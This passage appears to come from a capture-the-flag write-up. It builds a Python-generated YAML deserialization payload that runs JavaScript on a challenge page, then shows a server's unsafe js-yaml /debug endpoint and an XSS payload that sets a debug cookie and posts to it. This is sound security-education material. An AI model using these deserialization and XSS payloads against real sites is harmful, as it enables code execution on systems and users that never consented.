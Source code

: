 To get this to run on the challenge page, we simply modify the deserializer above to this:
```py=
import yaml

class Payload(object):
    def __reduce__(self):
        return (eval, ("__import__('js').eval('eval(atob(\\\\'Y29uc29sZS5sb2coYEhlbGxvIFdvcmxkIWAp\\\\'))')", ))

deserialized_data = yaml.dump(Payload())

print(deserialized_data)

# !!python/object/apply:builtins.eval
# - __import__('js').eval('eval(atob(\\'Y29uc29sZS5sb2coYEhlbGxvIFdvcmxkIWAp\\'))')
```

Now if you paste the deserialized code into the website, it should work !!

![image](/images/upload_b398ade720eac1a5f73e61c2c8f1588a.png)



All that effort just to execute arbitrary javasciprt code on the web page...

Okay, now that we know we can perform xss, let's move on to the second part of the challenge.

```js=
app.post('/debug', (req, res) => {
    console.log(req.cookies, req.body)
    if(ip.isLoopback(req.ip) && req.cookies.debug === 'on'){
        const yaml = require('js-yaml');
        let schema = yaml.DEFAULT_SCHEMA.extend(require('js-yaml-js-types').all);
        try {
        	let input = req.body.yaml;
            console.log(req.body);
        	console.log(`Input: ${input}`);
        	let output = yaml.load(input, {schema});
        	console.log(`Output: ${output}`);
        	res.json(output);
        } catch(e) {
        	res.status(400).send('Error');
        }
    } else {
        res.status(401).send('Unauthorized');
    }
});
```

To get through the first hurdle, let's craft our javascript payload accordingly for the xss bot to execute.

```js=
// Keep in mind that you DO NOT NEED to replace this
// as the challenge instance for the bot is also at
// localhost:3000
const HOST = 'http://localhost:3000';

const payload = `
document.cookie = 'debug=on';
fetch('${HOST}/debug', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'yaml=hii'
});`;

```